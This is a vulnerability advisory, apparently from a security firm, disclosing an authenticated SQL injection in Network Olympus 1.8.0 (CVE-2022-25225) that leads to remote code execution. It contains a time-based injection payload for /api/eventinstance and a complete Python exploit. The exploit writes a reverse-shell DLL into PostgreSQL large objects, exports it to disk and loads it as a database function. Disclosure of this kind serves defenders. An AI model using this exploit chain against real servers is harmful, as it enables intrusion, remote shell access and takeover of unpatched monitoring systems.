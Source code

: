 ```yaml
---
slug: advisories/spinetta/
title: Network Olympus 1.8.0 - SQL Injection
authors: Oscar Uribe
writer: ouribe
codename: spinetta
product: Network Olympus 1.8.0
date: 2022-02-23 10:00 COT
cveid: CVE-2022-25225
description: Network Olympus 1.8.0 - SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, Network Olympus
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                         |                                                                 |
|-------------------------|-----------------------------------------------------------------|
| **Name**                | Network Olympus 1.8.0 - SQL Injection                           |
| **Code name**           | [Spinetta](https://en.wikipedia.org/wiki/Luis_Alberto_Spinetta) |
| **Product**             | Network Olympus                                                 |
| **Affected versions**   | Version 1.8.0                                                   |
| **State**               | Public                                                          |
| **Release date**        | 2022-03-07                                                      |

## Vulnerability

|                       |                                                                  |
|-----------------------|------------------------------------------------------------------|
| **Kind**              | SQL injection                                                    |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146)    |
| **Remote**            | Yes                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H                     |
| **CVSSv3 Base Score** | 9.1                                                              |
| **Exploit available** | No                                                               |
| **CVE ID(s)**         | [CVE-2022-25225](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25225)                                                     |

## Description

Network Olympus **version 1.8.0** allows an authenticated admin user to inject
SQL queries in `/api/eventinstance` via the `sqlparameter`. It is also possible
to achieve remote code execution in the default installation (PostgreSQL)
by exploiting this issue.

## Proof of Concept

Steps to reproduce

1. Log in to Network Olympus.

2. The application send a request to `/api/eventinstance`
   with a json as parameter in the url, the json parameter
   `sqlparameter` allows to inject sql queries. It can be
   exploited using boolean based sql or stacked queries.

3. The following PoC can be used to make the database sleep for 2 seconds.

    ```html
      /api/eventinstance/{"pagenumber":1,"itemsperpage":100,"order":"asc","sqlparameter":[],"sqlstring":"1=1%2f%2a%2a%2f;select%2f%2a%2a%2fpg_sleep(2);--"}
    ```

4. To achieve command execution it is possible to create a malicious
   DLL and then load it in postgresql.

5. Create a malicious postgres [DLL extension](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html).

6. Create a copy of the exploit found in the following session
   and copy the generated DLL to the same folder
   and rename it to `rev_shell.dll`.

System Information

* Version: Network Olympus 1.8.0 (Trial Version).
* Operating System: Windows 10.
* Database and version: PostgreSQL 10.8,
  compiled by Visual C++ build 1800, 32-bit.

## Exploit

```python
import requests,sys, urllib, string, random, time, binascii
requests.packages.urllib3.disable_warnings()


# encoded UDF rev_shell dll

def read_udf(filename='rev_shell.dll'):
    f = open(filename, 'rb')
    content = f.read()
    return  binascii.hexlify(content)


udf = read_udf()


def login():

    url = "http://172.16.28.140:3000/api/signIn"

    # CHANGE THIS
    json = {"password": "j84sTuh8pmLb2YhVTChcmg==", "username": "admin"}

    s = requests.session()
    s.post(url, json=json)

    return s

def log(msg):
    print(msg)

def make_request(url, sql,s):
    json_query = """{"pagenumber":1,"itemsperpage":100,"order":"asc","sqlparameter":[],"sqlstring":\""""

    sqli = "1=1; %s --" % sql

    sqli = sqli.replace(" ","%2f%2a%2a%2f")

    sqli = json_query + sqli + "\"}"

    log("[*] Executing query: %s" % sql[0:80])
    proxies = {'http':'http://127.0.0.1:8080','https':'https://127.0.0.1:8080'}
    r = s.get(url+sqli, verify=False, proxies=proxies)

    return r


def delete_lo(url, loid,s):
    log("[+] Deleting existing LO...")
    sql = "SELECT lo_unlink(%d)" % loid
    make_request(url, sql, s)


def create_lo(url, loid,s):
    log("[+] Creating LO for UDF injection...")
    sql = "SELECT lo_import('C:\\\\windows\\\\win.ini',%d)" % loid
    make_request(url, sql, s)


def inject_udf(url, loid,s):
    log("[+] Injecting payload of length %d into LO..." % len(udf))

    size = 2048 * 2

    for i in range(0,((len(udf)-1)/size)+1):
        udf_chunk = udf[i*size:(i+1)*size]

        if i == 0:
            sql = "UPDATE PG_LARGEOBJECT SET data=decode('%s', 'hex') where loid=%d and pageno=%d" % (udf_chunk, loid, i)
        else:
            sql = "INSERT INTO PG_LARGEOBJECT (loid, pageno, data) VALUES (%d, %d, decode('%s', 'hex'))" % (loid, i, udf_chunk)

        make_request(url, sql,s)

def export_udf(url, loid,s):
    log("[+] Exporting UDF library to filesystem...")
    sql = "SELECT lo_export(%d, 'C:\\\\Users\\\\Public\\\\rev_shell.dll')" % loid
    make_request(url, sql,s)

def create_udf_func(url,s):
    log("[+] Creating function...")
    #sql = "create or replace function rev_shell(text, integer) returns VOID as 'C:\\Users\\Public\\rev_shell.dll', 'connect_back' language C strict"
    sql = "CREATE OR REPLACE FUNCTION dummy_function(int) RETURNS int AS 'C:\\\\Users\\\\Public\\\\rev_shell.dll', 'dummy_function' LANGUAGE C STRICT;"
    make_request(url, sql,s)

if __name__ == '__main__':
    try:
        server = sys.argv[1].strip()
        port = sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: %s serverIP:port " % sys.argv[0])
        sys.exit()

    sqli_url = "http://%s:%s/api/eventinstance/" % (server,port)

    loid = 1337

    print("[*] Authenticated SQL Injection to RCE")
    print("[*] Network Olympus 1.8.0 ")
    print

    s = login()

    delete_lo(sqli_url, loid,s)
    create_lo(sqli_url, loid,s)
    inject_udf(sqli_url, loid,s)
    export_udf(sqli_url, loid,s)
    create_udf_func(sqli_url,s)
```

## Mitigation

By 2022-03-07 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

|                     |                                                                     |
|---------------------|---------------------------------------------------------------------|
| **Vendor page**     | <https://www.network-olympus.com/monitoring/>                       |

## Timeline

* 2022-02-22: Vulnerability discovered.

* 2022-02-23: Vendor contacted.

* 2022-03-07: Public Disclosure.